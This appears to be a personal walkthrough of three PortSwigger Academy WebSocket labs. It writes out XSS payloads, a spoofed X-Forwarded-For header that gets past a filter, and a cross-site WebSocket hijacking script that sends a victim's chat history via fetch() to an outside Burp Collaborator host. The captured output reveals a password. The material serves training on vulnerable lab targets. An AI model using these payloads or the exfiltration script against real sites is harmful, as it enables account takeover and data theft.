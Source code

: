 # Portswigger
## WebSockets
### Manipulating WebSocket messages to exploit vulnerabilities
```bash

# This online shop has a live chat feature implemented using WebSockets.

# Chat messages that you submit are viewed by a support agent in real time.

# To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

Go to: "Live chat"
Send content:

<img src=1 onerror='alert(1)'>

Note the WebSickets history:

{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;"}

Intercept is on:
Change the URL-encoded message:

{"user":"You","content":"<img src=1 onerror='alert(1)'>"}

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529190422.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529190627.png)

### Manipulating the WebSocket handshake to exploit vulnerabilities
```bash

# This online shop has a live chat feature implemented using WebSockets.

# It has an aggressive but flawed XSS filter.

# To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

Go to: "Live chat"
Send message:

hey there!

send message:

<img src=1 onerror='1'>

Note the session terminates and you cannot go back to the previous session (apparently this is supposed to happen immediately, yet this was not the case for me as it happened after multiple chat terminations)
Send the 'hey there!' WebSockets history request to repeater
Go to: pencil icon
Source: Proxy
Click reconnect on any request w/ source as "proxy"
Insert into the request:

X-Forwarded-For: 1.3.4.5

Connect
You should be prompted with a response in the WebSockets history
Change the message

Insert:

<iframe src='jaVaScRiPt:alert`1`'></iframe>

Like so:

{"message":"<iframe src='jaVaScRiPt:alert`1`'></iframe>"}

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529202458.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529200830.png)

### Cross-site WebSocket hijacking
```bash

# This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

# To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

Go to: "Live chat"
Message:

"hey"

Refresh page

Go to: 

GET /chat HTTP/1.1

Copy URL
Go to Burp -> Burp Collaborator client -> Copy to clipboard
Go to: "Go to exploit server"
Body:

<script>
    var ws = new WebSocket('wss://ac251fde1f0701dfc067179b00790020.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://424gaodtzbp03su14y0de4y7uy0ood.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

View exploit
Go to: Burp Collaborator client -> Poll now
Once verified that the responses are being received:

Deliver exploit to victim
Go to: Burp Collaborator client -> Poll now
Go to:
Type: HTTP
Request to Collaborator

{"user":"You","content":"I forgot my password"}

{"user":"Hal Pline","content":"No problem carlos, it&apos;s zldkzccg4yvolbdftqa7"}

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529204148.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220529205840.png)

#hacking
